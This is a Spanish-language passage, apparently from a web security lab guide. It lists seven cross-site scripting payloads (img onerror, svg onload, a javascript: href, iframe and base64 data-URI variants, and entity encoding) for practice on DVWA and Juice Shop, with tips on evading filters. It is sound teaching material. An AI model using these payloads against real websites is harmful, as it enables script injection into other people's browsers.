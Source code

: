 ### 2. Ejecución de payloads avanzados

#### 1. Inyección en atributo `src` (Reflected XSS)
- URL de prueba: `/vulnerabilities/xss_r/`
- Payload:  
  ```html
  <img src=x onerror=alert('Reflected')>
  ```
- ¿Qué esperar?: Se ejecutará un `alert()` al fallar la carga de imagen.

#### 2. Inyección con `<svg>` (Reflected o Stored)
- Payload:  
  ```html
  <svg/onload=alert('SVG XSS')>
  ```
- Contexto: Funciona bien en campos HTML donde SVG no está filtrado.

#### 3: Eventos en input
- Payload:
  ```html
  <input autofocus onfocus=alert('focus')>
  ```
- Consejo: Inyecta en formularios que se autovisan o en comentarios visibles.

#### 4: `href` con `javascript:`
- Payload:
  ```html
  <a href="javascript:alert('XSS')">haz click</a>
  ```
- ¿Funciona en tu navegador? ¿Está desactivado por CSP?

#### 5. Inyección en `iframe`
- Payload:  
  ```html
  <iframe src="javascript:alert('iframe XSS')">
  ```
- Prueba su ejecución en Juice Shop en el campo de comentarios.

#### 6. XSS usando `data:` URI
- Payload:
  ```html
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
  ```
- 📌 Este payload usa Base64 para esconder el script.

#### 7. Encoded entities
- Payload:
  ```html
  <img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>
  ```
- 📌 ¿Qué pasa si el filtro solo bloquea “alert” pero no entidades?


### 4. Análisis y reflexión
